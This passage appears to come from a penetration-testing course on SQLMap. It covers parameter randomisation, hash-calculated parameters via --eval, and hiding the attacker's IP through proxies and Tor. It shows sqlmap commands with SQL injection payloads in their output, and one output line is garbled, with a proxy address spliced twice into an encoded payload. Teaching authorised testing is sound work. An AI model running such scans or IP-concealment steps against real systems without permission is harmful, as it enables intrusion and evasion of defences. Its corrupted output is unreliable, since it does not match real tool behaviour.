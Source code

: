 In some cases, the web application may only require unique values to be provided inside predefined parameters. Such a mechanism is similar to the anti-CSRF technique described above, except that there is no need to parse the web page content. So, by simply ensuring that each request has a unique value for a predefined parameter, the web application can easily prevent CSRF attempts while at the same time averting some of the automation tools. For this, the optionÂ `--randomize`Â should be used, pointing to the parameter name containing a value which should be randomized before being sent:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

---

## Calculated Parameter Bypass

Another similar mechanism is where a web application expects a proper parameter value to be calculated based on some other parameter value(s). Most often, one parameter value has to contain the message digest (e.g.Â `h=MD5(id)`) of another one. To bypass this, the optionÂ `--eval`Â should be used, where a valid Python code is being evaluated just before the request is being sent to the target:


```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

---

## IP Address Concealing

In case we want to conceal our IP address, or if a certain web application has a protection mechanism that blacklists our current IP address, we can try to use a proxy or the anonymity network Tor. A proxy can be set with the optionÂ `--proxy`Â (e.g.Â `--proxy="socks4://177.39.187.70:33283"`), where we should add a working proxy.

In addition to that, if we have a list of proxies, we can provide them to SQLMap with the optionÂ `--proxy-file`. This way, SQLMap will go sequentially through the list, and in case of any problems (e.g., blacklisting of IP address), it will just skip from current to the next from the list. The other option is Tor network use to provide an easy to use anonymization, where our IP can appear anywhere from a large list of Tor exit nodes. When properly installed on the local machine, there should be aÂ `SOCKS4`Â proxy service at the local port 9050 or 9150. By using switchÂ `--tor`, SQLMap will automatically try to find the local port and use it appropriately.
